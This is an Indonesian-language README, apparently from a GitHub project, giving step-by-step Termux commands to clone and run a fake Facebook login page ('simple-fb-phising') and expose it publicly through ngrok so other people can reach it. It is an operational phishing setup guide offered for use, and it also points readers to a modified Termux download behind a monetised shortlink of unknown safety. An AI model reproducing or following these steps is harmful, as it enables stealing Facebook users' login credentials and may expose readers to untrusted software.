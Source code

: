 ## Phising sederhana menggunakan Termux di Android

   ```bash
   pkg update && pkg upgrade
   pkg install git
   git clone https://github.com/sandhemongss/simple-fb-phising.git
   cd simple-fb-phising
   pkg install nodejs
   npm start
   
   ./ngrok http 5000
   ```
   
## Langkah-langkah lengkap

__Install Termux__ :
Download dan install Termux di Playstore atau F-droid.

Jika ingin menggunakan Termux seperti yang saya gunakan [Download Disini.](https://moneyblink.com/xplljU7Mx7)

Buka Termux dan update package `pkg update && pkg upgrade`.

__Install paket yang di butuhkan :__
* `pkg install nodejs`
* `pkg install git`

__Selanjutnya ikuti langkah-langkah berikut :__

* `git clone https://github.com/sandhemongss/simple-fb-phising.git`
* `cd simple-fb-phising`
* `npm start`

Lalu buka Browser/Chrome dan ketik url `http://localhost:5000` jika semua langkah di atas benar seharusnya halaman login palsu Facebook sudah muncul di server lokal kita. Selanjutnya tinggal bagaimana server lokal kita bisa di akses secara online oleh orang lain, disini saya contohkan menggunakan Ngrok.

__Install Ngrok :__
* `pkg update && pkg upgrade`
* `pkg install wget`
* `wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-stable-linux-arm.zip`
* `unzip ngrok-stable-linux-arm.zip`

__Autentikasi Ngrok:__
- Setelah Ngrok terinstall, kamu perlu menghubungkan akun Ngrok kamu dengan menjalankan token autentikasi. Kamu bisa mendapatkan token dari dashboard Ngrok setelah mendaftar.